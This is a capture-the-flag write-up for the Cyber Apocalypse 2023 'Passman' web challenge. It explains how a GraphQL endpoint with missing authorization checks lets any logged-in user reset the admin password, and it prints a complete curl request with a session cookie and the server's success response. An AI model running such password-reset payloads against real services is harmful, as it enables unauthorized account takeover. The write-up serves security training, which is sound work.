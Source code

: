 # Cyber Apocalypse 2023

## Passman

> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?
>
>  Author: N/A
>
> [`web_passman.zip`](web_passman.zip)

Tags: _web_

## Solution
While inspecting the source code we can find a weak graphql endpoint that allows to change user data for any user. The endpoint is only available for authenticated users but creating a new user is easily done.

![createuser](image001.png)

After this we can take the session id of the newly created user to send a update call to the `graphql` endpoint.

```
$ curl -X POST -H "Content-Type:application/json" -d '{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"test"}}' --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5NTc0ODk0fQ.mOgumzswX-rEm9_222nfGZ__ur29vovSQT3jrYLj_us" http://104.248.169.117:30
522/graphql
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```

Now admins password is set to `test` we can login as `admin` and retrieve the flag.
![flag](image002.png)